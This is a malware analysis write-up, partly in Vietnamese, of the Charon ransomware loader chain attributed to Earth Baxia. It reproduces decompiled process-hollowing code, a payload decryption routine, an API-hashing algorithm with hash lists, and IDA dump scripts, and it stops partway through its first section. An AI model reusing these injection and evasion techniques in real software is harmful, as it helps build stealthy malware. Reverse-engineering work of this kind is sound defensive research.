







> Charon Ransomware is a sophisticated ransomware strain associated with the Earth Baxia APT group. This analysis delves into its techniques, tactics, and procedures (TTPs) to better understand its operation and impact.

# Table of Contents

- [I. Earth Baxia's DLL Sideloading and Payload Injection Techniques](#i-earth-baxias-dll-sideloading-and-payload-injection-techniques)

  - [1. File "msedge.dll" Analysis](#1-file-msedgedll-analysis)
  - [2. Payload_Shellcode Analysis](#2-payload_shellcode-analysis)

- [II. Technical Analysis of the Charon Ransomware](#ii-technical-analysis-of-the-charon-ransomware)

  - [1. Anti-Detection & Anti-Recovery (Pre-Encryption Behaviors)](#1-anti-detection--anti-recovery-pre-encryption-behaviors)
  - [2. Encryption Logic Analysis](#2-encryption-logic-analysis)
  - [3. Other Behaviors Beyond Encryption](#3-other-behaviors-beyond-encryption)

- [III. IOC and MITRE-ATT&CK Framework](#iii-ioc-and-mitre-attck-framework)

  - [1. IoC Table](#1-ioc-table)
  - [2. MITRE-ATT&CK Framework](#2-mitre-attck-framework)

- [IV. Resource References](#iv-resource-references)

# I. Earth Baxia's DLL Sideloading and Payload Injection Techniques

| File Name     | SHA-256 Hash                                                     |
| ------------- | ---------------------------------------------------------------- |
| Edge.exe      | 5d0675f20eeb8f824097791711135a273680f77bf5e9f0e168074e97464f21b5 |
| msedge.dll    | e0a23c0d99c45d40f6ef99c901bacf04bb12e9a3a15823b663b392abadd2444e |
| DumpStack.log | 739e2cac9e2a15631c770236b34ba569aad1d1de87c6243f285bf1995af2cdc2 |

- Mẫu Ransomware mới có tên Charon được phát hiện trong các cuộc tấn công có chủ đích ở khu vực công và ngành hàng không Trung Đông. Cuộc tấn công sử dụng kỹ thuật DLL-SideLoading để thực thi mã độc, cách triển khai các file để thực thi hành vi độc hại giống với Earth Baxia campaigns từng được ghi nhận trước đó ( https://www.trendmicro.com/en_fi/research/24/i/earth-baxia-spear-phishing-and-geoserver-exploit.html ).

- Chuỗi tấn công đã lợi dụng một tệp hợp pháp được đổi tên thành `"Edge.exe"` ( tên ban đầu là `"cookie_exporter.exe"` ) để thực hiện kĩ thuật side loading file `"msedge.dll"` là file mã độc (SWORDLDR), sau đó triển khai `"ransomware_payload"` trên máy nạn nhân.

- Sơ đồ hoạt động các hành vi của phần mềm độc hại:


## 1. File "msedge.dll" Analysis

- Mã độc thực hiện kỹ thuật DLL-SideLoading sử dụng file hợp pháp liên quan đến trình duyệt `"Edge.exe"` thực hiện nạp vào bộ nhớ địa chỉ của thư viện `"msedge.dll"` [ Map DLL vào không gian bộ nhớ -> resolve imports, chạy TLS callbacks -> gọi entry của DLL và ở đây là `"DllEntryPoint(...)"` ].


- File mã độc `"msedge.dll"` bị obfuscated nặng, trong hàm `"DllEntryPoint(...)"` thực hiện call function thông qua function_pointer - ở đây bao gồm "function_pointer_1[0]", "function_pointer_1[1]" và đặc biệt "function_pointer_1[2]" là follow thực thi tiếp theo của malware ( Ở đây đặt tên là `"fn_main_flow()"` để theo dõi ).



- Các hàm obfuscated tương ứng với "function_pointer_1[0]", "function_pointer_1[1]" thực hiện "Anti-Debug" gồm các "Anti-Debug strings":


- Tiếp theo hàm `"fn_main_flow()"` cũng sẽ gọi "function_pointer" thực hiện các hành vi sau:

  - Gọi hàm thực hiện kiểm tra tồn tại của file `"DumpStack.log"`, đọc và giải mã nội dung file thành payload_shellcode_layer_1, trong hàm này cũng gọi hàm con thực hiện kiểm tra "Anti-Debug".

  - Thực hiện resolve các hàm WindowsAPI có tên trong string ở đầu nội dung được giải mã từ file `"DumpStack.log"` => thực hiện kỹ thuật gọi payload_shellcode_layer_1.


- Hàm thực hiện giải mã ra string `"DumpStack.Log"` để build thành đường dẫn sau đó sử dụng bộ hàm CreateFileA, GetFileSize, ReadFile để đọc nội dung của file này vào heap buffer. Tiếp tục quá trình giải mã nội dung file thành các thông tin liên quan như string tên của các hàm WindowsAPI, string "C:\Windows\System32\svchost.exe" và payload_shellcode_layer_1.


```cpp
'Kernel32.dll',0,
'CreateProcessA',0,
'VirtualAllocEx',0,
'WriteProcessMemory',0,
'GetThreadContext',0,
'SetThreadContext',0,
'ResumeThread',0,
'VirtualProtectEx',0,
'C:\\Windows\\System32\\svchost.exe;W1'
```

- Mã giả mô tả thuật toán được sử dụng để giải mã nội dung file `"DumpStack.log"` - Tham khảo script-python "[decrypt_dumpstack_log.py](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/decrypt_dumpstack_log.py)":

```cpp
  # 1) NOT
  b = (~b) & 0xFF
  # 2) XOR với 0x2E
  b ^= 0x2E
  # 3) NEG 8-bit: (0x100 - AL) & 0xFF
  b = (0x100 - b) & 0xFF
  return b
```


- Hàm "Anti-Debug" (Logic call hàm này trong hàm giải mã file `"DumpStack.log"`) - Kiểm tra process có đang chạy trong debugger nào không?


- Sau khi xử lý file `"DumpStack.log"`, hàm `"fn_main_flow()"` thực hiện quá trình split delimiter (";": 0x3B) data sau giải mã để lấy thông tin tên các hàm APIs cần dùng và gọi các "function_pointer" khác để resolve chúng ( CreateProcessA, VirtualAllocEx, ... ).


- DLL độc hại thực hiện kỹ thuật Process Injection bằng `"CreateProcessA (suspended) + WriteProcessMemory + VirtualProtectEx + SetThreadContext + ResumeThread"` vào tiến trình `"C:\Windows\System32\svchost.exe"` để thực thi payload_shellcode_layer_1 được decrypt từ file `"DumpStack.log"` .


- Đây là một dạng `"Process-Hollowing"` khi tạo process suspended sau đó sửa giá trị thanh ghi RIP trong struct `"_CONTEXT"` để trỏ đến địa chỉ vùng nhớ chứa shellcode trong process "svchost.exe" . Vị trí chứa giá trị thanh ghi RIP ở offset 0xf8 trong struct `"_CONTEXT"` ( https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context ).


```cpp
  StartupInfo.cb = 0x68;
  memset(&StartupInfo.lpReserved, 0, 0x60);
  CreateProcessA(0i64, strTargetProcess, 0i64, 0i64, 0, CREATE_SUSPENDED, 0i64, 0i64, &StartupInfo, &ProcessInformation);
  pTargetProcessAddr = VirtualAllocEx(ProcessInformation.hProcess, 0i64, dwScSize, MEM_COMMIT, PAGE_READWRITE);
  WriteProcessMemory(ProcessInformation.hProcess, pTargetProcessAddr, shellCodePtr, dwScSize, 0i64);
  VirtualProtectEx(ProcessInformation.hProcess, pTargetProcessAddr, dwScSize, PAGE_EXECUTE_READWRITE, flOldProtect);
  threadCtx.ContextFlags = CONTEXT_FULL;
  GetThreadContext(ProcessInformation.hThread, &threadCtx);
  threadCtx.Rip = pTargetProcessAddr;
  SetThreadContext(ProcessInformation.hThread, &threadCtx);
  LODWORD(g_val_0x1_1) = ResumeThread(ProcessInformation.hThread);
```

## 2. Payload_Shellcode Analysis

- Khi phân tích `"payload_shellcode_layer_1"` có thể debug qua PID của `"svchost.exe"` sử dụng IDA attach nhưng lời khuyên là dump shellcode từ process memory khi debug `"msedge.dll"` và patch header dump shellcode thành PE-File rồi debug ( Tools shellcode2exe: https://github.com/repnz/shellcode2exe ).

```python
import idaapi
import binascii

start_address = 0x000001932CC382C0
end_address = start_address + 0x000000000000F1B2
data = idaapi.get_bytes(start_address, 0x000000000000F1B2)

with open("dumped_data.bin", "wb") as f:
    f.write(data)
    f.close()
    print("Success dump file data!")
```

```powershell
.\shellcode2exe.bat 64 dumped_data.bin payload_shellcode_layer_1.exe
```

- Bắt đầu `"payload_shellcode_layer_1"` thực hiện resolve các API như `"ntdll_LdrLoadDll; ntdll_NtAllocateVirtualMemory; ntdll_NtProtectVirtualMemory; ntdll_NtFreeVirtualMemory"` để thực hiện logic tạo memory, đưa payload vào memory vừa cấp phát và cấp quyền thực thi, cuối cùng là dọn dẹp memory.

```cpp
00000000 struct __fixed MW_API_INFO // sizeof=0x28
00000000 {                                       // XREF: start/r
00000000     __int64 LdrLoadDll;                 // XREF: start+55/w
00000008     __int64 NtAllocateVirtualMemory;    // XREF: start+71/w
00000010     __int64 NtProtectVirtualMemory;     // XREF: start+88/w
00000018     __int64 NtFreeVirtualMemory;        // XREF: start+92/w
00000020     __int64 ntdllBaseAddr;              // XREF: start+2D/w start+48/r ...
00000028 };

struct _LIST_ENTRY *start()
{
  __int64 n10; // rcx
  MW_API_INFO *address_api_info; // rdi
  unsigned int *encDataInfo_1; // rdi
  __int64 i; // rcx
  struct _LIST_ENTRY *ntdll.dll; // rax
  char *pData; // rax
  char *updated; // rax
  unsigned int n5; // [rsp+2Ch] [rbp-5Ch]
  unsigned int encDataInfo[6]; // [rsp+30h] [rbp-58h] BYREF
  MW_API_INFO api_info; // [rsp+48h] [rbp-40h] BYREF

  n10 = 10;
  address_api_info = &api_info;
  while ( n10 )
  {
    LODWORD(address_api_info->LdrLoadDll) = 0;
    address_api_info = (MW_API_INFO *)((char *)address_api_info + 4);
    --n10;
  }
  encDataInfo_1 = encDataInfo;
  for ( i = 6; i; --i )
    *encDataInfo_1++ = 0;
  ntdll.dll = fn_get_dll_address_by_hash(0x3729C0C);
  api_info.ntdllBaseAddr = (__int64)ntdll.dll;
  if ( ntdll.dll )
  {
    api_info.LdrLoadDll = (__int64)fn_resolve_ntAPI_address_by_hash(0, ntdll.dll, 0x52841068u);
    api_info.NtAllocateVirtualMemory = (__int64)fn_resolve_ntAPI_address_by_hash(
                                                  0,
                                                  (void *)api_info.ntdllBaseAddr,
                                                  0xDF59DF5D);
    api_info.NtProtectVirtualMemory = (__int64)fn_resolve_ntAPI_address_by_hash(
                                                 0,
                                                 (void *)api_info.ntdllBaseAddr,
                                                 0x3D52223u);
    api_info.NtFreeVirtualMemory = (__int64)fn_resolve_ntAPI_address_by_hash(
                                              0,
                                              (void *)api_info.ntdllBaseAddr,
                                              0x35F50C56u);
    pData = fn_return_unknow_data();
    fn_init_struct_object(encDataInfo, pData, 5u);
    n5 = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
    updated = (char *)fn_updateDataPtrInObj((__int64)encDataInfo, n5 != 0);
    return (struct _LIST_ENTRY *)fn_main(&api_info, updated, n5);
  }
  return ntdll.dll;
}
```

- Logic sử dụng khi lấy địa chỉ "ntdll.dll" của `"payload_shellcode_layer_1"` là duyệt `"PEB->Ldr->InLoadOrderModuleList"`, lấy `"BaseDllName"` và gọi hàm hash rồi lấy kết quả so với hằng 0x3729C0C để lấy base của ntdll. Thuật toán hash sử dụng `BKDR*131 + tolower` (c <= 0x60 thì +0x20) trong hàm `"sub_4010F0()"`.

- Sau khi lấy được base của DLL thì tiếp tục lấy địa chỉ hàm các API cần thiết thông qua duyệt `"ntdll->Export Table"` hash từng tên hàm rồi so sánh khớp với hash mục tiêu (tham số `a3`). Thuật toán hash được dùng cho API cũng tương tự như trên. Mã giả cho thuật toán hash:

```cpp
// Pseudocode chính xác theo decompile
uint32_t hash(const char* s, int len /*0 = null-terminated*/) {
    uint32_t h = 0;
    size_t i = 0;
    do {
        unsigned char c = s[i];
        if (!len && c == 0) break;        // chạy đến '\0' nếu len==0
        if (c) {
            if (c <= 0x60) c += 0x20;     // "tolower" kiểu lạ: mọi ký tự <= '`' đều +0x20
            h = h*131 + c;                // BKDR(131)
        }
        ++i;
    } while (!len || i != (size_t)len);
    return h;
}
```

- Tiếp theo chương trình xử lý các thông tin liên quan trong 1 struct nhằm xây dựng một data info phục vụ quá trình giải mã phần tiếp theo của payload_shellcode_layer_1.

```cpp
00000000 struct MW_BLOB32 // sizeof=0x10
00000000 {                                       // XREF: MW_DATA_INFO/r
00000000                                         // MW_DATA_INFO/r ...
00000000     uint32_t len;                       // XREF: fn_main+155/r
00000000                                         // fn_main+171/r ...
00000004     uint32_t _pad;
00000008     void *pData;                        // XREF: fn_main+CF/w
00000008                                         // fn_main+DC/w ...
00000010 };

00000004 typedef unsigned int uint32_t;          // XREF: MW_BLOB32/r
00000004                                         // MW_BLOB32/r

00000000 struct MW_DATA_INFO // sizeof=0x80
00000000 {                                       // XREF: fn_main/r
00000000     MW_BLOB32 shellcode;                // XREF: fn_main+CF/w
00000000                                         // fn_main+155/r ...
00000010     MW_BLOB32 dataInfo1;                // XREF: fn_main+DC/w
00000010                                         // fn_main+179/r
00000020     MW_BLOB32 dataInfo2;                // XREF: fn_main+FC/w
00000020                                         // fn_main+171/r
00000030     unsigned int num_0xE0;              // XREF: fn_main+BC/w
00000030                                         // fn_main+181/r
00000034     unsigned int _pad34;
00000038     unsigned __int64 field_38;          // XREF: fn_main+A1/w
00000040     MW_BLOB32 fixingCodeTable;          // XREF: fn_main+10C/w
00000050     MW_BLOB32 moduleInfo;               // XREF: fn_main+12C/w
00000060     MW_BLOB32 apiHashesInfo;            // XREF: fn_main+13C/w
00000070     MW_BLOB32 xorKeyInfo;               // XREF: fn_main+159/w
00000080 };

void *__fastcall fn_main(
        int (__fastcall **api_info)(_QWORD, _QWORD, __int64 *, struct _LIST_ENTRY **),
        char *updated,
        unsigned int n5)
{
  __int64 n6; // rcx
  unsigned int *encDataInfo_1; // rdi
  MW_DATA_INFO *address_data_info; // rdi
  __int64 i; // rcx
  void *pData_1; // rax
  __int64 pData_2; // r13
  int num_0x22; // edi
  int get_4_bytes_and_update_struct_fields; // eax
  int v12; // r14d
  char *v13; // r15
  int v14; // eax
  __int64 *resolved_API_Array; // r14
  unsigned int v16; // eax
  unsigned int finalPayloadSize_0xBA5F; // edi
  __int64 finalPayloadAddr_0x3753; // rax
  unsigned __int8 byte_0x2; // [rsp+3Fh] [rbp-E9h]
  int num_0xFFFFFFFF_1; // [rsp+40h] [rbp-E8h]
  unsigned int scOffset_0x3AB; // [rsp+44h] [rbp-E4h]
  __int64 pData; // [rsp+48h] [rbp-E0h]
  unsigned int encDataInfo[6]; // [rsp+58h] [rbp-D0h] BYREF
  MW_DATA_INFO dataInfo; // [rsp+70h] [rbp-B8h] BYREF

  n6 = 6;
  encDataInfo_1 = encDataInfo;
  while ( n6 )
  {
    *encDataInfo_1++ = 0;
    --n6;
  }
  address_data_info = &dataInfo;
  for ( i = 32; i; --i )
  {
    address_data_info->shellcode.len = 0;
    address_data_info = (MW_DATA_INFO *)((char *)address_data_info + 4);
  }
  pData_1 = fn_alloc_arr((__int64)api_info, updated, n5);
  if ( pData_1 )
  {
    pData_2 = (__int64)pData_1;
    fn_init_struct_object(encDataInfo, pData_1, n5);
    byte_0x2 = fn_get_1_bytes_and_update_struct_fields(encDataInfo);
    num_0x22 = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
    scOffset_0x3AB = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
    get_4_bytes_and_update_struct_fields = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
    dataInfo.field_38 = 0;
    num_0xFFFFFFFF_1 = get_4_bytes_and_update_struct_fields;
    dataInfo.num_0xE0 = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
    dataInfo.shellcode.pData = (void *)fn_get_data_ptr_n_update_struct_fields((__int64)encDataInfo, &dataInfo);
    dataInfo.dataInfo1.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                         (__int64)encDataInfo,
                                         &dataInfo.dataInfo1.len);
    dataInfo.dataInfo2.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                         (__int64)encDataInfo,
                                         &dataInfo.dataInfo2.len);
    dataInfo.fixingCodeTable.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                               (__int64)encDataInfo,
                                               &dataInfo.fixingCodeTable.len);
    dataInfo.moduleInfo.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                          (__int64)encDataInfo,
                                          &dataInfo.moduleInfo.len);
    dataInfo.apiHashesInfo.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                             (__int64)encDataInfo,
                                             &dataInfo.apiHashesInfo.len);
    dataInfo.xorKeyInfo.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                          (__int64)encDataInfo,
                                          &dataInfo.xorKeyInfo.len);
    v12 = fn_align_4096(dataInfo.shellcode.len) + dataInfo.num_0xE0 + dataInfo.dataInfo1.len + dataInfo.dataInfo2.len;
    pData_1 = (void *)fn_call_NativeAPI((__int64)api_info, 0, v12 + 8 * num_0x22, 12288, 4);
    pData = (__int64)pData_1;
    if ( pData_1 )
    {
      fn_init_struct_object(encDataInfo, pData_1, v12 + 8 * num_0x22);
      v13 = (char *)fn_updateDataPtrInObj((__int64)encDataInfo, v12);
      v14 = fn_return_argv1(encDataInfo);
      resolved_API_Array = (__int64 *)fn_updateDataPtrInObj((__int64)encDataInfo, v14);
      fn_call_align_4096(v13, (signed int *)&dataInfo);
      fn_xor_decode(&dataInfo.dataInfo2, &dataInfo.xorKeyInfo);
      fn_xor_decode(&dataInfo.moduleInfo, &dataInfo.xorKeyInfo);
      pData_1 = (void *)fn_resolve_api_by_hash_and_update(api_info, byte_0x2, &dataInfo, num_0x22, resolved_API_Array);
      if ( (_DWORD)pData_1 )
      {
        v16 = fn_align_4096(dataInfo.shellcode.len);
        pData_1 = (void *)fn_call_ntdll_NtProtectVirtualMemory(
                            (__int64)api_info,
                            (__int64)dataInfo.shellcode.pData,
                            v16);
        if ( (_DWORD)pData_1 )
        {
          fn_ntdll_NtFreeVirtualMemory((__int64)api_info, pData_2, 0);
          sub_401434(&dataInfo, num_0xFFFFFFFF_1, num_0x22, resolved_API_Array);
          fn_init_struct_object(encDataInfo, &updated[n5], 5u);
          finalPayloadSize_0xBA5F = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
          finalPayloadAddr_0x3753 = fn_updateDataPtrInObj((__int64)encDataInfo, finalPayloadSize_0xBA5F != 0);
          ((void (__fastcall *)(__int64, _QWORD, MW_DATA_INFO *))((char *)dataInfo.shellcode.pData + scOffset_0x3AB))(
            finalPayloadAddr_0x3753,
            finalPayloadSize_0xBA5F,
            &dataInfo);
          return (void *)fn_ntdll_NtFreeVirtualMemory((__int64)api_info, pData, 0);
        }
      }
    }
  }
  return pData_1;
}
```

- Chương trình `"payload_shellcode_layer_1"` dùng thuật toán XOR 2 lần trong đó lần đầu tiên không check được info gì, lần thứ hai giải mã một đoạn payload_shellcode_layer_2 trong payload_shellcode_layer_1 và một vài thông tin liên quan như hàm API mà payload_shellcode_layer_2 sử dụng.


```plaintext
// Before:
// 0000000000252A23 0B 83 75 7C 68 F3 78 A8 2C 15 9E 9C 1B AE 6C FB ..u|hóx¨,....®lû
// 0000000000252A33 88 06 4F 30 77 65 88 00 00 00 BC 3F 34 AF 45 17 ..O0we....¼?4¯E.

// After:
// 0000000000252A23 6E 74 64 6C 6C 00 6B 65 72 6E 65 6C 33 32 00 6D ntdll.kernel32.m
// 0000000000252A33 73 76 63 72 74 00 88 00 00 00 BC 3F 34 AF 45 17 svcrt.....¼?4¯E.
```

- Sau đó là nó thực hiện resolve 0x22 API từ các thư viện trên, dựa vào hash table và thông tin hash này thu đươc ở lúc nó build data info:

```cpp
API_HASHES_LIST = [0xAF343FBC, 0xD3471745, 0x03D52223, 0xF57E0FF8, 0xBAB9D8AB, 0x95F0B5C5, 0xAFBD9CC9, 0x24D2D549, 0xDF59DF5D, 0x65507F2A, 0x51CE411D, 0x35F50C56, 0x8CEBABFE, 0x1D290EF0, 0x7514B236, 0x18537BC1, 0x1B182E61, 0x2BFE68AE, 0xD2ED781A, 0x53BFBD4F, 0xAB1A9BAD, 0x99478AD4, 0x52841068, 0x88487882, 0xB360594D, 0x759E94FA, 0x8894FDD7, 0x0DAD95D0, 0xCC6770B9, 0xCC9B7308, 0x12F23F2F, 0x0DC8F9D8, 0x12F66A19, 0x00078C4C]
```

- Khi brute API hash ở trên, thì xác định được các API gọi trong payload_shellcode_layer_2, trong đó có một hàm đặc biệt :

```cpp
API hash: 0xD3471745 --> API found: RtlDecompressBuffer <-- hàm giải nén
API hash: 0x88487882 --> API found: RtlInitAnsiString
API hash: 0x99478AD4 --> API found: RtlInitUnicodeString
...
```

- Phân tích đến đây có thể xác định được payload_shellcode_layer_1 là payload trung gian (Từ payload_shellcode_layer_1 nó mới gọi tới payload_shellcode_layer_2, với tham số nhận vào là cái Blob data chứa finalPayload có chứa con ransom).


- Phần đầu của payload_shellcode_layer_2 thực hiện xor và gọi hàm RtlDecompressBuffer để giải nén ra PE-File Charon_Ransomware. Sau khi giải mã layer này thì tệp PE cuối được tạo ra, đây chính là ransomware_payload Charon.


- Phần sau của payload_shellcode_layer_2 tiếp tục sử dụng kỹ thuật Process-Hollowing và sửa giá trị thanh ghi RIP trong struct `"_CONTEXT"` để trỏ đến địa chỉ hàm main trong PE-File được decrypt ( PE-File Charon_Ransomware vẫn nằm trong bộ nhớ của process thay vì được extract ra rồi thực thi ) .


- Đoạn này DEBUG tiến hành kiểm tra và tính toán theo offset để check RIP được đặt trong struct `"_CONTEXT"` khi gọi hàm "ntdll_NtSetContextThread" nếu DEBUG sử dụng IDA attach PID "svchost.exe" .

- shellcode sử dụng các hàm API từ hash table đã resolve để inject và thực thi PE-File Charon_Ransomware:

```cpp
API hash: 0x35F50C56 --> API found: NtFreeVirtualMemory
API hash: 0x95F0B5C5 --> API found: NtGetContextThread
API hash: 0x8CEBABFE --> API found: NtOpenThread
API hash: 0x03D52223 --> API found: NtProtectVirtualMemory
API hash: 0xAF343FBC --> API found: NtReleaseMutant
API hash: 0x24D2D549 --> API found: NtResumeThread
API hash: 0xAFBD9CC9 --> API found: NtSetContextThread
API hash: 0x2BFE68AE --> API found: NtSignalAndWaitForSingleObject
API hash: 0x1D290EF0 --> API found: NtSuspendThread
API hash: 0x18537BC1 --> API found: NtTerminateThread
```

- Một lần nữa lời khyên là dump PE-File `"Charon_Ransomware"` để debug ( Nên Dump từ debug IDA attach PID "svchost.exe" thay vì file payload_shellcode_layer_1 do khi patch header của payload_shellcode_layer_1 làm sai gì đó khiến tính toán size_file theo e_lfanew bị sai ? )

- Do không có size của PE-File `"Charon_Ransomware"` nên cần tính toán size từ field "e_lfanew" [- script-python IDA "[dump_PE_in_payload_shellcode.py](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/dump_PE_in_payload_shellcode.py)" -]. Logic tính File Size :

```plaintext
address_MZ = 0xABCDEFGH

addr_e_lfanew = address_MZ + 0x3C

value_e_lfanew = 4 byte little edian at addr_e_lfanew

addr_PE_header = address_MZ + value_e_lfanew

addr_number_of_section = addr_PE_header + 4 + 2

value_number_of_section = 2 bytes little edian at addr_number_of_section

offset_from_first_section_to_last_section = 0x28 \* (value_number_of_section - 1)

addr_first_section = addr_PE_header + 0x108

addr_last_section = addr_first_section + offset_from_first_section_to_last_section

